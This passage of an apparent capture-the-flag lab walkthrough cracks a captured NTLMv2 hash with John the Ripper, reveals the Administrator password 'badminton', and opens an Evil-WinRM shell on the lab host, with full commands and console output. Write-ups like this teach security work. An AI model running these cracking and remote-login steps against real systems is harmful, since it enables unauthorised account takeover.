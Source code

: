 ```console
10030002E00310030002E00310034002E00310035000000000000000000
```

Now that we have the hash, we can use 'John the Ripper' to brute force the password using a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials).

Command:

`sudo john --format=netntlmv2 -w=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash.txt`

`--format`: Use netntlmv2 format.

`-w=`: Use this wordlist.

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ sudo john --format=netntlmv2 -w=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-04-13 09:10) 16.66g/s 546133p/s 546133c/s 546133C/s bulova..160582
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

*Hint: to clear john cache run `rm ~/.john/john.pot`*

We cracked the password. Now we just need to utilize it, since Linux doesn't support PowerShell out of the box, we'll use 'Evil-WinRM' to connect to the server.

Command:

`evil-winrm -i 10.129.156.117 -u administrator -p badminton`

`-i`: Host we want to connect to.

`-u`: User we want to log in as.

`-p`: Password of that user.

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ evil-winrm -i 10.129.156.117 -u administrator -p badminton

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                 
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd ..
*Evil-WinRM* PS C:\Users> ls

    Directory: C:\Users

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/9/2022   5:35 PM                Administrator
d-----          3/9/2022   5:33 PM                mike
d-r---        10/10/2020  12:37 PM                Public

```